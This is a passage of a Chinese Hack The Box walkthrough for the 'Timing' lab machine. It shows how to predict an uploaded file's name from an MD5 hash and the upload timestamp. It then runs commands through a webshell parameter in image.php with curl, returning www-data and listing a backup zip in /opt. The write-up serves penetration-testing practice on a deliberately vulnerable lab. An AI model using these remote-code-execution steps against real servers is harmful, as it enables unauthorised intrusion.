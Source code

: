 ![](img/edb095e9b238767de12f9a9a70f664e2.png)

打嗝重复显示文件上传的日期和时间

我们在右侧看到文件已上传，现在复制并记下服务器响应上的日期和时间:

```
Wed, 22 Dec 2021 17:21:43 GMT
```

我们像以前一样在 PHP 中使用它:

```
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed, 22 Dec 2021 17:21:43 GMT')) . '_pencer.jpg');
e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg
```

# 远程代码执行

我们现在有了可以使用 curl 远程调用的文件名。让我们用 whoami 来测试一下:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=whoami'
www-data
```

那行得通。然而，我花了很长时间试图得到一个反向壳没有运气。回到枚举文件系统，最终我找到了这个:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=ls+-lsa+/opt' 
total 624
616 -rw-r--r--  1 root root 627851 Jul 20 22:36 source-files-backup.zip
```
